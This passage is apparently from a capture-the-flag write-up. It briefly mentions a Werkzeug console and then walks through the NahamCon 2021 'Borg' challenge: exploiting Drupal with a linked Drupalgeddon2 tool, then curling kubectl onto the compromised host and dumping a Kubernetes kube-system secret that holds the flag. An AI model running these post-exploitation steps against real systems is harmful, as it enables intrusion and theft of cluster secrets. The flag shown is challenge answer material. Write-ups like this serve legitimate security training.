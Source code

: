 And surfing inside the werkezeug console to get flag :))


---
# [Hard] Borg - 499 points (21 Solves)

### Intro
```
Author: @magnologan#3840

This is an easy one for you. What do you know about Borg? I mean outside of Star Trek, of course.

The answer to this challenge is classified somewhere inside this Borg machine.

"Computers make excellent and efficient servants, but I have no wish to serve under them." - Mr. Spock, "The Ultimate Computer"

Use the URL provided to start this challenge. And boldly go!

Connect here: http://a20f22f911d2c4c899badfa27913cc51-1960241099.us-east-1.elb.amazonaws.com/
```
### Solve

Exploiting using https://github.com/dreadlocked/Drupalgeddon2

![Drupalgeddon](../images/nahamcon21/drupalgedon.png)

The flag hiding in kube 🐱‍👤

```
cd /tmp

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

./kubectl get secret -n kube-system ctf -o yaml

apiVersion: v1
data:
  flag: ZmxhZ3s0MTFfeW91cl9jMXU1K2VyNV82ZTFvbjlfK29fbWV9Cg==
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","data":{"flag":"ZmxhZ3s0MTFfeW91cl9jMXU1K2VyNV82ZTFvbjlfK29fbWV9Cg=="},"kind":"Secret","metadata":{"annotations":{},"name":"ctf","namespace":"kube-system"},"type":"Opaque"}
  creationTimestamp: "2021-03-14T12:24:09Z"
  managedFields:
  - apiVersion: v1
    fieldsType: FieldsV1
    fieldsV1:
      f:data:
        .: {}
```